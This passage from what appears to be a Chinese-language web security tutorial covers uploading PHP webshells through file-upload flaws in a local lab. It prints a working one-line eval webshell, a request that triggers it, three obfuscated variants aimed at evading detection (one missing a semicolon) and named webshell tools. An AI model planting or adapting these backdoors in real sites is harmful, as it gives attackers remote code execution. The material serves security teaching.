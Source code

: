 就如果我们上传的 PHP 是更多恶意功能的脚本，就可以实现更多攻击行为。

### 利用漏洞上传 Webshell

#### 1.一句话木马

提到 Webshell 木马，就不得不提下"一句话木马"。PHP 一句话木马可以通过 GET、POST、COOKIE 这几种方式提交数据，然后将数据传递给代码/命令执行函数，从而实现任意代码/命令执行。

比如以下这个一句话木马：

```php
<?php eval(@$_GET['a']); ?>
```

将上述代码保存为 eval.php 并上传至网站，然后构造请求：

```java
http://127.0.0.1/hackable/uploads/eval.php?a=phpinfo();
```

利用一句话木马成功执行 phpinfo() 函数。

<Image alt="图片4.png" src="https://s0.lgstatic.com/i/image/M00/91/86/CgqCHmAOpTmAfY3IAARME2KRqaY914.png"/>  
图 4 利用一句话木马执行代码

有时为了绕过木马检测，攻击者会对一句话进行混淆变形，比如下面几句。

* **利用字符串拼接执行函数名：**

```php
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```

* **通过 base64_decode 编码执行函数名：**

```php
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

* **由 GET 参数指定函数名和参数：**

```php
<?php $_GET['a']($_GET['b']);  ?>
```

行业内常称"一句话木马"为"小马"，用它来传递"大马"，因为"大马"比较容易被检测到。

#### 2.Webshell 管理工具

攻击者常用"菜刀""冰蝎""蚁剑"、Weevely、Cknife 这些 Webshell 工具去连接一句话木马，其中尤以"菜刀"最为出名。

